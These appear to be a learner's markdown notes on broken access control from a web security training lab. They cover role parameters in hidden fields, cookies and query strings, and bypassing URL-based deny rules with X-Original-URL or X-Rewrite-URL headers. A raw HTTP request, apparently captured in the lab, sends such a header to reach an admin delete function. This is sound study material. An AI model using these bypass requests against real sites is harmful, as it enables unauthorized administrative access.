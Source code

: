 ## Vertical Access controls
- Restrict access to sensitive functions to specific types of users

### Horizontal Access Controls
- Different users have access to subset of resources of the same type

#### Parameter-based access control methods

Some applications determine the user's access rights or role at login, and then store this information in a user-controllable location. This could be:

- A hidden field.
- A cookie.
- A preset query string parameter.

The application makes access control decisions based on the submitted value. For example:
```
https://insecure-website.com/login/home.jsp?admin=true 

https://insecure-website.com/login/home.jsp?role=1
```

This approach is insecure because a user can modify the value and access functionality they're not authorized to, such as administrative functions.


#### Broken access control resulting from platform misconfiguration

Some applications enforce access controls at the platform layer. they do this by restricting access to specific URLs and HTTP methods based on the user's role. For example, an application might configure a rule as follows:

`DENY: POST, /admin/deleteUser, managers`

This rule denies access to the `POST` method on the URL `/admin/deleteUser`, for users in the managers group. Various things can go wrong in this situation, leading to access control bypasses.

Some application frameworks support various non-standard HTTP headers that can be used to override the URL in the original request, such as `X-Original-URL` and `X-Rewrite-URL`. If a website uses rigorous front-end controls to restrict access based on the URL, but the application allows the URL to be overridden via a request header, then it might be possible to bypass the access controls using a request like the following:

```
POST / HTTP/1.1 
X-Original-URL: /admin/deleteUser
...
```

Example:

```
GET /admin HTTP/2
Host: 0a0a002f0463aebb822b8802000000ec.web-security-academy.net
X-Original-Url: /admin/delete
Cookie: session=d7UcQSVnXSYxB5Lpui5JVl2byqaWCs6O
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0a002f0463aebb822b8802000000ec.web-security-academy.net/?username=carlos
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Content-Length: 0
```

Can use `X-Rewrite-Url: /invalid` to test if it would work